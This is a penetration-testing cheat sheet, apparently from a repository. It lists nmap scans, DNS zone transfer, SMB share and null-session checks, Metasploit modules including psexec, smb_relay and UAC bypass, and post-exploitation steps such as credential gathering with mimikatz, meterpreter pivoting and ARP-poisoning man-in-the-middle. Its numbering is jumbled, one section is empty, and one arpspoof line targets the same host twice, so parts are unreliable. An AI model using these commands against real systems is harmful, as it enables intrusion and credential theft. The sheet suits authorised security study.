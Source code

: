 ## CheatSheet 

### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN      :    Exploiting zone transfer to display all subdomains
    - Exploiting zone transfer to display zone

### 2.SMB Misconfiguration
   #### 2.1 SMB Share
     Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2 Metasploit
        exploit/windows/smb/psexec
        exploit/windows/smb/smb_relay
        auxiliary/scanner/smb/smb_login
        auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
        smbclient -L IPTarget
   

### 4.Exploitation


### 3.Post Exploitation

#### 3.0 Infor Gathering
        run winenum
        run arp_scanner –r TargetNetworkSubnet
        run post/multi/gather/filezilla_client_cred

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

      getsystem
      post/windows/gather/win_privs        : Check if UAC enabled
      exploit/windows/local/bypassuac      : Local exploit to bypass UAC

    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
       incognito
       mimikatz

##### 3.1.2 Via Windows Services 

    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”

   - Using powerUp.ps1 script
   - 
        
##### 3.1.3 Specific Linux

#### 3.3 Pivoting
   route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
   portfarwarding (meterpreter) ==> portfwd victimeIP -p ServicePort add -L 127.0.0.1 -l LocalPort -r

### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
* arpspoof -i tap0 -t vic1_IP -r vic2_IP
*  arpspoof -i tap0 -t vic2_IP -r vic2_IP
